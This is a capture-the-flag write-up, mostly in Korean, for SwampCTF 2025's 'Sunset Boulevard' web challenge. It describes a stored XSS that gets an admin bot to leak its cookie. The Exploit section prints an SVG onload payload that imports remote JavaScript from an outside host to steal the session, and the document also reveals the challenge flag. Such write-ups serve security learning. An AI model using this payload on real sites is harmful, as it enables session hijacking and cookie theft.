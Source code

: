 # 🐊 SwampCTF 2025 Writeup - [Sunset Boulevard]

**Category:** [Web]  
**Points:** [100]  
**Tags:** `CTF`, `[Web]`, `swampctf`  

---
## 📚 Table of Contents
- [🔍 Recon](#-recon)
- [🎯 The Goal](#-the-goal)
- [💉 Exploit](#-exploit)
- [🍪 Info Leakage or Gain](#-info-leakage-or-gain)
- [👑 Accessing the Flag](#-accessing-the-flag)
- [🧠 Conclusion](#-conclusion)

---
## 🔍 Recon

![[Pasted image 20250403002957.png]]

- 팬들이 메시지를 작성할 수 있는 웹페이지 제공
- 관리자 페이지가 존재한다는 소문이 있음
- 힌트에 따르면 `https://artoo.love`를 통한 공격 가능성 존재

---

## 🎯 The Goal

> 플래그를 얻기 위해 해야 할 주요 목표 정리
![[Pasted image 20250403003017.png]]
- [ ] Stored XSS 삽입
- [ ] 관리자 봇을 통한 스크립트 실행 유도
- [ ] 세션/쿠키 탈취 또는 플래그 출력

---

## 💉 Exploit

### 🛠️ Step 1. Stored XSS 시도
![[Pasted image 20250403003110.png]]

- `https://artoo.love`에서 JS 페이로드 생성
- 삽입한 XSS 페이로드 예시:
```
<svg onload="import('//popjs.dev/yOPcj')"></svg>
```

![[Pasted image 20250403003153.png]]

- 댓글란에 삽입하여 저장 → **Stored XSS** 성공

### 🛠️ Step 2. 쿠키 탈취

![[Pasted image 20250403003217.png]]

![[Pasted image 20250403003242.png]]

- 일정 시간 후 관리자 봇이 페이지 방문
- XSS 실행 → 쿠키 전송/세션 탈취 👉 flag 확인 성공

#### 🛠️ 사용한 도구
  - [ ] artoo.love
  - [ ] JS 이벤트 삽입 (svg, script 등)

---

## 🍪 Info Leakage or Gain

- 관리자 세션 쿠키 또는 인증 토큰 탈취 가능
- 플래그가 쿠키 또는 응답값에 포함되어 있음

---

## 👑 Accessing the Flag

플래그에 접근한 방식 (ex. 관리자 페이지 진입, 쿠키 내 포함 등)

```
swampCTF{THIS_MUSICAL_WAS_REVOLUTIONARY_BUT_ALSO_KIND_OF_A_SNOOZE_FEST}
```

---

## 🧠 Conclusion

배운 점, 보안 상 주의할 점, 이 취약점의 영향 요약:

- Stored XSS는 여전히 심각한 위협이 될 수 있음
- 사용자 입력 필터링 및 Content Security Policy 설정이 매우 중요
- 관리자 봇이 입력값을 직접 렌더링하는 구조는 취약함
- 외부 스크립트를 참조하는 단순한 XSS 페이로드도 매우 치명적일 수 있음

---

_📚 Writeup by [@ChaeYum1](https://github.com/ChaeYum1)_
